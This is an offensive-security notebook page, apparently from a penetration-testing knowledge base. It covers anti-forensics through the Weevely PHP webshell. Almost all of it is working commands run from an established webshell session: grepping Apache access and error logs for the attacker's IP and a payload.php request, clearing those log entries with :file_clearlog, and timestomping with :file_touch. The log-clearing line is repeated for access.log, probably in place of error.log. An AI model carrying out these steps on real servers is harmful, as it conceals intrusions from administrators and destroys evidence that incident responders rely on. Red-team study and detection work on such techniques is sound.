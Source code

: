 ```yaml
---
author(s):
  - Userware
tags:
  - webshell
  - interactive-shell
  - defense-evasion
  - anti-forensics
  - weevely
---
```

# Webshell

## Weevely

```
weevely> :system_info -info client_ip
<attacker_IP>
```

```
weevely> stat /var/log/apache2/access.log

weevely> stat /var/log/apache2/error.log
```

```
weevely> :file_grep /var/log/apache2/access.log "<attacker_IP>"

weevely> :file_grep /var/log/apache2/error.log "<attacker_IP>"
```

```
weevely> :file_grep /var/log/apache2/access.log "GET /payload.php"

weevely> :file_grep /var/log/apache2/error.log "GET /payload.php"
```

Modify the log by removing the attacker's IP address.

```
weevely> :file_clearlog <attacker_IP> /var/log/apache2/access.log

weevely> :file_clearlog <attacker_IP> /var/log/apache2/access.log
```

```
weevely> :file_touch
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/12 - Anti-Forensics/Cross Platform/Clear Traces/Timestomp/Webshell]]

### Weevely

- [Weevely: Clean IP address from logs](https://github.com/epinna/weevely3/wiki/Clean-IP-address-from-logs)